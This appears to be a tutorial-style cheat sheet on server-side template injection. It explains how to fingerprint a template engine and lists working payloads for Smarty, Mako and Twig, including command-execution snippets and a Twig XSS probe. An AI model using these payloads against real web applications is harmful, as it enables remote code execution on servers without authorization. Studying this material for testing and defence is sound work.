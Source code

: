 ### To better identify the technology
The first step after observing anomalies related to calculations or unusual handling of expressions in curly braces should be trying to identify the underlying technology

- Observe which is the generic technology of the app. If its Java (u see it used .jsp extensions), then u can suspect its an expression language / OGNL
- Use the diagram from before as it contains popular behavior of template engines when handling expressions
- Try to inject unclosed curly braces (be careful as there is a chance u might permanently disable the attacked webpage); This might provoke verbose error disclosing the underlying technology
- Observe other verbose errors For technology names


### Exploiting Template Injection
PHP Smarty:
```php
# The RCE payload can be as simple as the one-liner:
{php}echo 'id';{/php}
```

Python Mako:
```python
<%
  import os
  x=os.popen('id').read()
%>
${x}
```

PHP Twig:

https://github.com/s4n7h0/xvwa
```php
{ {5*5} } 
# results in "25"

{ {<svg/onload=confirm(1)>} }
# u can observe a XSS vuln
```

Twig used a known object named **{{_self}}** = current application instance

- one of the twigs _self attributes is named **env** and contains other methods that can be called

→ https://github.com/twigphp/Twig/blob/e22fb8728b395b306a06785a3ae9b12f3fbc0294/lib/Twig/Environment.php

Example *display function*:
```js
{ { _self.env.display("xyz") } }
```

Executing commands via the getFilter function must be done as follows:
```
- Call registerUndefinedFilterCallback, which allows us to register any function as a filter callback
- The filter callback is then called by invoking _self.env.getFilter()
```
